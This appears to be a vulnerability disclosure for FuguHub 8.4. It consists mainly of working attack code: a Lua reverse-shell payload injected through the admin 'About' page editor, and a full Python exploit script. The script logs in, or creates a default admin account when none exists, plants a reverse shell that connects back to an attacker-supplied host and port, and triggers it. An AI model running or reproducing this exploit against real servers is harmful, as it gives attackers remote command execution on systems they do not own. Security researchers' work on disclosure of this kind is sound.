



# PG Hub (FuguHub 8.4)

Fuguhub is a Cloud Media Server Software. The version tested was the debian version at this link:
`https://fuguhub.com/articles/FuguHub-for-Debian`


### Installation Steps: 
```
wget FuguHub.com/install/FuguHub.linux.install
chmod +x FuguHub.linux.install
sudo ./FuguHub.linux.install
```


### Vulnerability Description

The about page is an editable lua page whose content can be changed through the Administrator panel. The vunlerability inserts a reverse shell written in lua into the About page which is viewable to both logged in and logged out users




### Exploitation process

FuguHub prompts the user to create an admin user, this can also be done on this page: `http://127.0.0.1/rtl/protected/admin/`
Once created teh admin can Customise Server on this link: `http://127.0.0.1/rtl/protected/admin/customize.lsp` this allows the user to edit the `About` page which we can see has a lua code section that we can inject code into



### Payload
Here is an example payload:

```lua
<?lsp if request:method() == "GET" then ?>
    <?lsp 
        local host, port = "192.168.0.107", 4444
        local socket = require("socket")
        local tcp = socket.tcp()
        local io = require("io")
        local connection, err = tcp:connect(host, port)
        
        if not connection then
            print("Error connecting: " .. err)
            return
        end
        
        while true do
            local cmd, status, partial = tcp:receive()
            if status == "closed" or status == "timeout" then break end
            if cmd then
                local f = io.popen(cmd, "r")
                local s = f:read("*a")
                f:close()
                tcp:send(s)
            end
        end
        
        tcp:close()
    ?>
<?lsp else ?>
    Wrong request method, goodBye! 
<?lsp end ?>
```

An alternative single line payload can be obtained at revshells.com



After some research into other exploits I found CVE-2023-24078 which found a file upload vulnerability. That exploit was done using python and had automated logging in / account creation. I used the authentication part and added my newly discovered insertion point at customize.lsp page. See exploit.py in the root folder

`python exploit.py -r <FuguHub IP> -rp 80 -l <Attacker IP> -p <Listener port>`

```python
# Exploit Title: FuguHub 8.4 - Remote Code Execution (Authenticated)
# Date: 10/2/2024
# Exploit Author: Sanjin Dedic
# Vendor Homepage: https://fuguhub.com/
# Software Link: https://fuguhub.com/download.lsp
# Version: 8.1
# Tested on: Ubuntu 22.04.1
# This exploit abuses the ability of FuguHub admins to edit the "About" page to inject arbitrary LSP (Lua Server Pages) code. 
# The code is then executed when the "About" page is visited triggering a reverse shell. This exploit requires valid admin credentials
# Authentication portion of the exploit is based on the work of redfire359 (CVE-2023-24078)


import requests
from bs4 import BeautifulSoup
import argparse
from colorama import Fore, init

# Initialize Colorama
init(autoreset=True)

# Suppress InsecureRequestWarning
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

# User-defined settings
username = 'admin'
password = 'password'
email = 'admin@admin.com'

# Command line arguments setup
parser = argparse.ArgumentParser(description="Exploit script to create an admin user and execute a reverse shell.")
parser.add_argument("-r", "--rhost", help="Victim's IP/URL (omit the http://)", required=True)
parser.add_argument("-rp", "--rport", help="HTTP port [Default: 80]", default="80")
parser.add_argument("-l", "--lhost", help="Your IP for the reverse shell", required=True)
parser.add_argument("-p", "--lport", help="Port for your reverse shell listener", required=True)
args = parser.parse_args()

# Global variables
BASE_URL = f"http://{args.rhost}:{args.rport}"


def check_account(session):
    """Check if an admin account exists and act accordingly."""
    print(f"{Fore.YELLOW}[*] {Fore.WHITE}Checking for admin user...")
    r = session.get(f"{BASE_URL}/Config-Wizard/wizard/SetAdmin.lsp")
    if r.status_code == 404:
        print(f"{Fore.RED}[!] {Fore.WHITE}Page not found! Check the target IP and port.")
        exit(0)

    soup = BeautifulSoup(r.content, 'html.parser')
    search = soup.find('h1')
    user_exists = 'User database already saved' in search.text if search else False

    if user_exists:
        print(f"{Fore.GREEN}[+] {Fore.WHITE}An admin user exists..")
        login(session)
    else:
        print(f"{Fore.GREEN}[+] {Fore.WHITE}No admin user exists yet, creating account with {username}:{password}")
        create_user(session)
        login(session)


def create_user(session):
    """Create a new user with predefined credentials."""
    data = {
        'email': email,
        'user': username,
        'password': password,
        'recoverpassword': 'on'
    }
    r = session.post(f"{BASE_URL}/Config-Wizard/wizard/SetAdmin.lsp", data=data)
    if r.status_code == 200:
        print(f"{Fore.GREEN}[+] {Fore.WHITE}User created!")
    else:
        print(f"{Fore.RED}[!] {Fore.WHITE}Failed to create user.")


def login(session):
    """Log in with the predefined user credentials."""
    print(f"{Fore.GREEN}[+] {Fore.WHITE}Logging in...")
    data = {'ba_username': username, 'ba_password': password}
    r = session.post(f"{BASE_URL}/rtl/protected/wfslinks.lsp", data=data, verify=False)

    if 'Web-File-Server' in r.text:
        print(f"{Fore.GREEN}[+] {Fore.WHITE}Success! Injecting the reverse shell...")
        exploit(session)
    else:
        print(f"{Fore.RED}[!] {Fore.WHITE}Error! Login failed.")
        exit(0)


def exploit(session):
    """Inject and trigger the reverse shell."""
    customize_page_url = f"{BASE_URL}/rtl/protected/admin/customize.lsp"
    payload = f'''
<?lsp 
local host, port = "{args.lhost}", {args.lport} 
local socket = require("socket") 
local tcp = socket.tcp() 
local io = require("io") 
tcp:connect(host, port); 
while true do 
    local cmd, status, partial = tcp:receive() 
    local f = io.popen(cmd, "r") 
    local s = f:read("*a") 
    f:close() 
    tcp:send(s) 
    if status == "closed" then break end 
end 
tcp:close()
?>
<h1>REVERSE SHELL EXECUTED CHECK LISTENER</h1>'''
    data = {'about': payload, 'setabout': 'Set Custom About Page'}
    r = session.post(customize_page_url, data=data)

    if r.status_code == 200 and "Set Custom About Page" in r.text:
        print(f"{Fore.GREEN}[+] {Fore.WHITE}Successfully injected the reverse shell into the About page.")
    else:
        print(f"{Fore.RED}[!] {Fore.WHITE}Failed to inject the reverse shell.")
        exit(0)

    # Trigger the reverse shell
    about_page_url = f"{BASE_URL}/rtl/about.lsp"
    print(f"{Fore.GREEN}[+] {Fore.WHITE}Triggering the reverse shell, check your listener...")
    session.get(about_page_url)


def main():
    with requests.Session() as session:
        check_account(session)


if __name__ == '__main__':
    try:
        main()
    except Exception as e:
        print(f"\n{Fore.YELLOW}[*] {Fore.WHITE}An error occurred: {e}")


```

**THE END**


